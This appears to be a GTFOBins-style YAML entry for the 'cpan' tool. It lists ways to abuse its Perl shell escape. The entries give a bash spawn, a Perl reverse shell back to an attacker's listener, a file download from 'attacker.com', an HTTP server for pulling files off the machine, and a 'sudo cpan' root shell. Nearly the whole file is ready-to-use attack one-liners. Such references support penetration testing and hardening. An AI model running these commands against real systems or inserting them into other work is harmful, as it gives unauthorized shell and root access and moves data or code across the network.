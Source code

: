 ```yaml
---
name: cpan
functions:
  shell:
    - description: |
        `cpan` lets you execute perl commands with the `! command`.
      code: |
        cpan
        ! exec '/bin/bash'
  reverse-shell:
    - description: Run `nc -lvp RPORT` on the attacker box to receive the shell.
      code: |
        export RHOST=localhost
        export RPORT=9000
        cpan
        ! use Socket; my $i="$ENV{RHOST}"; my $p=$ENV{RPORT}; socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp")); if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S"); open(STDOUT,">&S"); open(STDERR,">&S"); exec("/bin/sh -i");};
  file-upload:
    - description: Serve files in the local folder running an HTTP server on port 8080. Install the dependency via `cpan HTTP::Server::Simple`.
      code: |
        cpan
        ! use HTTP::Server::Simple; my $server= HTTP::Server::Simple->new(); $server->run();
  file-download:
    - description: Fetch a remote file via an HTTP GET request and store it in `PWD`.
      code: |
        export URL=http://attacker.com/file_to_get
        cpan
        ! use File::Fetch; my $file = (File::Fetch->new(uri => "$ENV{URL}"))->fetch();
  sudo:
    - code: |
        sudo cpan
        ! exec '/bin/bash'
---
```


